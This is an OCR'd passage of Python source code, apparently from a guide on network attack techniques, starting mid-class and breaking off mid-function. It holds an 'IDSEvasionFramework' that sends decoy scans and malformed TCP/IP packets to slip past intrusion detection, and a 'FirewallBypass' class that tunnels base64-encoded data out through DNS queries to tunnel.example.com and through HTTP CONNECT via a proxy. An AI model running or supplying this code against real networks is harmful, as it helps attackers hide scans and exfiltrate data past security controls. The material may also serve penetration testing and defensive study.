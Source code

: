 ```python
        # Send real scan packet mixed with decoys
        real_packet = IP(dst=self.target_ip)/TCP(dport=self.target_port, flags="S")
        send(real_packet, verbose=0)
    
    def protocol_anomaly_evasion(self):
        """Use protocol anomalies to evade detection"""
        print("Executing protocol anomaly evasion...")
        
        # Invalid TCP flags combination
        packet1 = IP(dst=self.target_ip)/TCP(dport=self.target_port, flags="SF")
        send(packet1, verbose=0)
        
        # Unusual IP options
        packet2 = IP(dst=self.target_ip, options=[IPOption_RR()])/TCP(dport=self.target_port)
        send(packet2, verbose=0)
        
        # Invalid sequence numbers
        packet3 = IP(dst=self.target_ip)/TCP(dport=self.target_port, seq=0xFFFFFFFF)
        send(packet3, verbose=0)

# Example usage
evasion = IDSEvasionFramework("192.168.1.100")
evasion.fragmentation_evasion("GET / HTTP/1.1\r\nHost: target\r\n\r\n")
evasion.decoy_scanning(["10.0.0.1", "10.0.0.2", "10.0.0.3"])
evasion.protocol_anomaly_evasion()
```

### 2. Advanced Firewall Bypass Techniques
```python
#!/usr/bin/env python3
import socket
import struct
import base64

class FirewallBypass:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port
    
    def dns_tunneling(self, data):
        """Tunnel data through DNS queries"""
        # Encode data in subdomain
        encoded_data = base64.b64encode(data.encode()).decode()
        dns_query = f"{encoded_data}.tunnel.example.com"
        
        # Send DNS query
        import dns.resolver
        try:
            dns.resolver.resolve(dns_query, 'A')
        except:
            pass  # Expected to fail, data was tunneled
    
    def http_tunneling(self, payload):
        """Tunnel through HTTP CONNECT method"""
        http_request = f"""CONNECT {self.target_host}:{self.target_port} HTTP/1.1\r
Host: {self.target_host}:{self.target_port}\r
User-Agent: Mozilla/5.0\r
\r
{payload}"""
        
        # Send through proxy
        proxy_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        proxy_socket.connect(("proxy.example.com", 8080))
```